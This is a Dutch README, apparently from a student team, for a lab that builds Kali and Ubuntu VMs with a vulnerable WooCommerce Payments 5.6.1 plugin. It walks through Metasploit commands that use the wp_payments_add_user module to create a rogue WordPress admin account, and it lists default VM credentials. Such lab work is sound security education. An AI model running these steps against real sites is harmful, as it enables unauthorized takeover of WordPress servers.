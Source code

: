 # Readme voor WordPress exploit

Auteurs: Arthur Van Ginderachter, Jaak Daemen, Renz De Baets, Bert Coudenys

In deze readme gaan wij uitleggen hoe je de exploit van WordPress kan gebruiken om een Admin account te maken en toegang te krijgen met admin level access op een WordPress server.

## Inloggegevens van de VM's

- Kali Linux:

Log in: root

Wachtwoord: osboxes.org

- Ubuntu server:

Log in: osboxes

Wachtwoord: osboxes.org

## Scripts en bestanden nodig voor het opzetten van de omgeving.

We hebben de omgeving opzetten geautomatiseerd aan de hand van scripts zowel PowerShell als bash.
Binnen het .zip bestand zal u 4 bestanden vinden.

1. rootpromotie.sh
   - Dit bash script zal gekopieerd worden naar de kali linux machine en dan uitgevoerd worden door het vmcreator.ps1 script.
   - Dit bash script bevat commando's om ervoor te zorgen dat het root account geactiveerd wordt voor de Kali Linux vm.
2. script1.sh
   - Dit bash script zal uitgevoerd worden door het vmcreator.ps1 script.
   - Dit bash script zal een databank en een WordPress server opzetten. Het zal ook de manuele installatie van WordPress overslaan en dit automatisch doen.
3. guestupdate.sh
   - Dit script update de guest-additions van VirtualBox op de Ubuntu server (dit is nodig voor VBoxManage correct te kunnen gebruiken).
   - Dit bash script zal gekopieerd worden naar de Ubuntu server machine en dan uitgevoerd worden door het vmcreator.ps1 script.
4. vmcreator.ps1
   - Dit PowerShell script is verantwoordelijk voor het opzetten van de 2 nodige VM's aan de hand van VBoxManage.
   - Dit PowerShell script zal ook beide bash scripts uitvoeren en dus de volledige installatie automatiseren.
5. woocommerce-payments.5.6.1.zip
   - Deze zip file bevat de verouderde en kwetsbare versie van een WooCommerce plugin.
   - BELANGERIJK! Pak deze zip NIET uit.

Download ook deze twee .vdi files van [OSBoxes](https://www.osboxes.org/)

1. Download de "23.04 Lunar Lobster" [Ubuntu-Server](https://www.osboxes.org/ubuntu-server/)
2. Download ook de "2024.1" [Kali-Linux](https://www.osboxes.org/kali-linux/)
   Deze .vdi files mogen op uw toestel staan waar u wilt, maar hou de locatie goed bij.
   Pak nu beide .vdi's uit.

## Opzetten van de omgeving

Pak de .zip file die u gedownload heeft uit.
Voer enkel het "vmcreator.ps1" uit, dit gewoon uitvoeren door erop te klikken (niet met de PowerShell ISE). Alvoor u dit kan doen zal u het bestand moeten vertrouwen.
Doe dit door, rechtermuisklik vervolgens "Eigenschappen" te openen en vanonder te klikken op "Blokkering opheffen". Dit is noodzakelijk, anders zal het script niet uitvoerbaar zijn!
Het script zal u drie absolute paden vragen. Onder andere van de twee .vdi bestanden als ook van de "shared" map. Dit is de map die u zojuist hebt gedownload en uitgepakt. Tijdens het uitvoeren van het "vmcreator.ps1" script zal er gevraagd worden om het wachtwoord van de Ubuntu server op te geven, dit is: `osboxes.org`.

### Uitzonderingen/Errors

Zorg ervoor dat na het uitvoeren van het script de laatste regel in de console het volgende weergeeft: "IP-adres van de Ubuntu-server: "arthurisgeenjaak.com". Als dit niet het geval is, betekent dit dat het hosts-bestand niet correct is aangemaakt.

Hier volgt een voorbeeld van hoe het einde van het script kan uitzien (indien er een fout is in geslopen):

```bash
IP-Adres van de Ubuntu-server: 192.168.69.69
IP-Adres van de Ubuntu-server:
```

OF in het bestand "/etc/hosts" kan je controleren dat "arthurisgeenjaak.com" in voorkomt. Dit kan u bekijken door in de shell het volgende commando in te voeren: `sudo cat /etc/hosts`.

U kan dit oplossen door:

1. U voegt deze handmatig toe als het script niet correct heeft gewerkt door het commando `sudo nano /etc/hosts` uit te voeren en daar te controleren of het gegeven ubuntu server ip er in staat en vervolgens arthurisgeenjaak.com er naast te typen.
2. Deze zal enkel de bash scripts uitvoeren die niet correct hebben gewerkt aangezien de VM's al bestaan en bepaalde gedeeltes van de installatie al gebeurd zijn.

   Nu zou dit te zien moeten zijn.

```bash
IP-Adres van de Ubuntu-server: 192.168.69.69
IP-Adres van de Ubuntu-server: arthurisgeenjaak.com
```

## Misbruiken van exploit a.d.h.v. Metasploit

Na het opzetten van de werkomgeving kan u de exploit gebruiken om een admin level user toe te voegen.
Dit hebben wij gedaan via Metasploit.
Open Metasploit op de Kali Linux en u zult een terminal te zien krijgen.
In deze terminal kan u het volgende commando uitvoeren om de exploit te zoeken:

```bash
search woocommerce
```

We zijn op zoek naar de exploit genaamd "auxiliary/scanner/http/wp_payments_add_user 2023-03-22"
Gebruik voor het selecteren van de juiste exploit het commando:

```bash
use #{numer van exploit. normaal 1}
```

Nu gaan we een aantal "set" commando's uitvoeren om Metasploit de correcte informatie te geven voor deze exploit.
Om meer informatie te vinden over deze commando's en waarom ze nodig zijn kan je volgende commando's gebruiken:

```bash
show options
```

```bash
set RHOSTS arthurisgeenjaak.com
set username #{Username van het nieuw admin account die u wilt maken}
set password #{Password van het nieuw admin account die u wilt maken}
```

Ok, nu bent u klaar om de exploit effectief uit te voeren. Gebruik hiervoor het commando:

```bash
exploit
```

Na het uitvoeren hiervan, zal er een nieuw account aangemaakt zijn op de WordPress server dat kan gebruikt worden om misbruik te maken van deze server.
